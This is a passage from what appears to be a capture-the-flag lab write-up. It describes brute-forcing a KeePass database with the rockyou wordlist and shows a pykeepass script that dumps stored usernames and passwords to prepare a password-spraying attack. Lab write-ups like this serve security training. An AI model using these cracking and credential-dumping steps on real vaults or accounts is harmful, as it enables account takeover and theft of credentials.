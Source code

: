 The article mentions this tool to manipulate KeePass:
https://github.com/libkeepass/pykeepass

Install in a virtual env:
<img src="Puppy-media/bb860ba1fae690101e855b3645ab3f24ed4f4c95.png"
class="wikilink" alt="Pastedimage20250925103329.png" />

And a tool for doing the crackjob using kali wordlists based on the above (.py file for download):
https://github.com/toneillcodes/brutalkeepass

Trying the classic wordlist..

    python3 bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt

<img src="Puppy-media/1e289d2c041779e2f18dd2d81135761bf3f119f4.png"
class="wikilink" alt="Pastedimage20250925104331.png" />
database password cracked: `liverpool`

#### Contents of recovery.kbdx

This python script using [pykeepass](https://github.com/libkeepass/pykeepass) enumerates the content and prepares text files (users.txt and passwords.txt) for netexec to spray the target...

``` python
from pykeepass import PyKeePass

# Path to your downloaded KDBX file and the password
db_path = 'recovery.kdbx'
password = 'liverpool'  # replace with actual password

# Open the database
kp = PyKeePass(db_path, password=password)


# Open output files
with open('passwords.txt', 'w') as pass_file:
    # Iterate over all entries
    for entry in kp.entries:
        print(entry)

        # print to console
        print(f"Title: {entry.title}")
        print(f"Username: {entry.username}")
        print(f"Password: {entry.password}")
        print(f"URL: {entry.url}")
        print(f"Notes: {entry.notes}")
        print("-" * 40)
```